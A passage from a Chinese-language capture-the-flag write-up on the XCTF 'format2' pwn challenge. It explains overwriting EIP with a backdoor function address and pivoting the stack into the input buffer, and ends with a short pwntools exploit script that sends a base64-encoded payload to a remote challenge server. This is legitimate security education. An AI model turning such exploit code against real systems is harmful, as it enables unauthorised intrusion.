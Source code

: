 ​	如果感觉我说的太抽象了，没有图片的话，可以参考这个师傅的文章[(24条消息) format2(xctf)_whiteh4nd的博客-CSDN博客](https://blog.csdn.net/weixin_43868725/article/details/108366539?ops_request_misc=%7B%22request%5Fid%22%3A%22164229926316780265467309%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=164229926316780265467309&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-108366539.first_rank_v2_pc_rank_v29&utm_term=format2&spm=1018.2226.3001.4187)，他这里面最后画的三张图片，描述的很清楚，我上面的叙述过程，跟他图片表达的是一个意思。

​    最后，我们拐过来看一下，eip执行了bbbb，那我们把bbbb换成后门函数的地址不就ok了，然后是cccc的这个地址，不就是我们这道题的input地址么，input本身能装12个字节，把它本身的地址写到cccc，就是12个字节的最后4字节，这样不就把栈迁移到input的内容里了么（但事实上栈没有过去，毕竟这里可是bss段）

Exp编写很简单
```python
import base64

from pwn import *

p=remote('111.200.241.244',59650)

context(arch='i386',os='linux',log_level='debug')

sys_addr=0x08049284

input_addr=0x0811EB40

payload='aaaa'+p32(sys_addr)+p32(input_addr)

p.sendline(base64.b64encode(payload))

p.interactive()
```

至此本题也就结束了。

但通过这道题，我学到了不少的东西。

尤其是这个函数

![image-20220411123508926](/upload/img/image-20220411123508926.png)

​	这里我一直是在想怎么把input写成这个-559038737，而忘记了其实不必循规蹈矩，因为没开pie，我们完全可以把这个system函数的地址去弄到eip里面使其执行。也认识到了找漏洞点的重要性，上来就去仔细分析函数的功能用处不大，大致扫过即可，先去找明显的漏洞点，在围绕这个漏洞点想一下，我们能利用它做些什么。
————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————
————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————
## BUUCTF上的[Black Watch 入群题]

